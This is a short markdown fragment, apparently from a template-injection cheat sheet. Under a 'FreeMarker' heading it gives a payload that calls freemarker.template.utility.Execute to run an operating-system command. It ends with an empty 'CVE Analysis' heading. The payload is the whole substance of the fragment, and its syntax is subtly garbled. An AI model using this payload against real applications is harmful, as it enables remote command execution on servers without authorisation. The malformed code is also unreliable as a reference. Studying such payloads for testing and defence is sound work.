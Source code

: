 
## FreeMarker
 ```
 assign value = "freemarker.template.utility.Execute"?new()${value(""cmd)}
 ```

## CVE Analysis

